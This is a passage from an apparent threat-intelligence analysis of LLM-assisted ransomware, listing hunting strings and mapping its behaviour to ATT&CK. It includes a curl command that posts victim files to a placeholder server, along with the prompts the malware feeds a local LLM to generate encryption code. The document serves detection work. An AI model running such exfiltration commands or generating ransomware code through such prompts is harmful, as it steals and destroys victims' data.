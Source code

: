 
## Notable Strings (for hunting & YARA)

* LLM prompt-injection cues:

  * "You are a Lua code generator. Generate clean, working Lua code wrapped in <code> </code> tags without any comments."
  * "You are a Lua code validator. Respond with <success>true</success> … <feedback>…</feedback>."
  * "Wrap your final analysis within <analysis> </analysis> tags."
  * "Summarize the system information, include the home directory parameter EXACTLY."
* Exfiltration & artifacts:

  * `curl -k -X POST "<server>" -F "session_key=<key>" -F "file=@<filename>"`
  * `session_key=`
  * `target_file_list.log`, `target_file_info.log`, `target_file_summary.log`
  * `sysinfo_summary.txt`, `payloads.txt`, `scan.log`, `decryptor.txt`
* Endpoint/Agent integration:

  * `/ollama/v1/chat/completions`
* Go/HTTP/TLS markers:

  * `Go-http-client/2.0`, `HTTP/2`, multipart form-data; many TLS/crypto-related error strings

These strings are highly distinctive and suitable for YARA rules and SIEM text hunts.

---

## MITRE ATT\&CK Mapping (approx.)

* **Initial Access (TA0001):**

  * T1566 — Phishing: distributed via phishing campaigns, tricking users into opening malicious attachments.
* **Execution (TA0002):**

  * T1204 — User Execution: relies on users executing malicious files (Office macros, disguised LNKs).
* **Defense Evasion (TA0005):**

  * T1027 — Obfuscated/Encrypted Files: obfuscation techniques hinder AV detection.
* **Discovery (TA0007):**

  * T1083 — File and Directory Discovery: scans host for files/directories to encrypt.
* **Impact (TA0040):**

  * T1486 — Data Encrypted for Impact (SPECK/ECB in Lua, in-place overwrite).
* **Other TTPs observed:**

  * T1059 — Command & Scripting Interpreter (Lua via GopherLua)
  * T1082 / T1033 — System and Account Discovery
  * T1105 / T1041 — Exfiltration over C2/HTTP (POST multipart with `session_key`)
  * T1070.004 — Artifact Wipe (secure deletion)
  * T1204.003 / T1647 — Abuse of Automation/LLMs via prompt‑injection

---

## Indicators of Compromise (IOCs)
